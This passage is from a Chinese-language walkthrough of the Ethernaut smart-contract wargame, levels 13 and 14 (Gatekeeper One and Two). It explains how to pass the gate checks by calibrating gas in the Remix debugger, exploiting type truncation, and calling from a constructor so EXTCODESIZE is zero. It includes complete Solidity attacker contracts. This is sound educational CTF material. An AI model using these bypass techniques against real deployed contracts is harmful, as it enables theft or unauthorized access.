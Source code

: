 然后调用unlock就行了

# level13 Gatekeeper One

关键的`msg.gas`只要复制一份代码，在remix js vm里点击debug单步调试，看看由调用enter开始直到汇编语句`GAS`时所用的gas是多少，然后设定gas=81910加上消耗掉的gas数和`GAS`本身消耗的2即可。

但是，每个版本compiler编译出来的指令都不太一样，因此看代码要选择0.4.18版本（https://remix.ethereum.org/#optimize=false&version=soljson-v0.4.18+commit.9cf6e910.js）。在这里就踩了一下坑..

剩下就是注意一下solidity的类型转换截断的实现。


```solidity
pragma solidity ^0.4.18;

contract GatekeeperOne {
  function enter(bytes8 _gateKey) public returns (bool);
}

contract MyAgent {
    GatekeeperOne c;
    
    function MyAgent(address _c) {
        c = GatekeeperOne(_c);
    }
    
    function exploit() {
        uint64 gateKey = uint16(tx.origin) + (1 << 44);
        c.enter.gas(81910-81697+81910+2)(bytes8(gateKey));
    }
}
```

# level14 Gatekeeper Two
查看以太坊黄皮书第十页底部（https://ethereum.github.io/yellowpaper/paper.pdf）
```
4 During initialization code execution, EXTCODESIZE on the address should return zero, which is the length of the code of the account while
CODESIZE should return the length of the initialization code (as defined in H.2
```

因此只要在构造函数内调用enter即可，剩下无非就是一个异或的简单逻辑，显然0-1=0xFFFFFF...，而对任意X有~X ^ X == 0xFFFF...，因此代码如下：
```solidity
pragma solidity ^0.4.18;

contract GatekeeperTwo {
  address public entrant;
  function enter(bytes8 _gateKey) public returns (bool);
}

contract MyAgent {
    function MyAgent(address _c) {
        GatekeeperTwo c = GatekeeperTwo(_c);
        c.enter(bytes8(~uint64(keccak256(this))));
    }
}
```
